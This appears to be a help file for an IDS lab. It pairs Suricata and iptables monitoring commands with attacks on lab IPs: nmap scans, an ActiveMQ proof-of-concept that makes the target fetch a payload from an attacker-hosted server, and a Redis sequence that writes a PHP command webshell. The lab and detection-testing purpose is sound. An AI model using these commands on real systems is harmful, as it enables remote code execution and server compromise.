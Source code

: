 # Help

### Проверить iptables:
```bash
sudo iptables -L DOCKER-USER -nv --line-numbers
```

### Проверить Логи Suricata:
```bash
journalctl -u suricata.service -b
sudo tail -n 200 /var/log/suricata/suricata.log
sudo tail -n 0 -f /var/log/suricata/fast.log
sudo tail -n 0 -f /var/log/suricata/eve.json | jq .
```

### Запустить Suricata вручную:
```bash
sudo suricata -c /etc/suricata/suricata.yaml -q 0
```

### NMAP scans:
```bash
nmap -sS victim     # SYN scan
nmap -sX victim     # Xmas scan
nmap -sU victim     # UDP scan
nmap -O victim      # OS detection
```

### ActiveMQ
```bash
nmap -sV -p 61616,8161 172.20.0.101
curl -I http://172.20.0.101:8161/
cd /opt
python3 -m http.server 8888
python3 poc.py -i 172.20.0.101 -p 61616 -u http://172.20.0.10:8888/poc.xml
```

### Redis Unauthorized Access + Command Execution
```bash
nmap -sV -p 6379 172.20.0.102
redis-cli -h 172.20.0.102 ping
redis-cli -h 172.20.0.102
>>> info server
>>> config get "*"
>>> keys *
>>> dbsize
>>> config set dir /tmp
>>> config set dbfilename webshell.php
>>> set test "<?php system($_GET['cmd']); ?>"
>>> save
```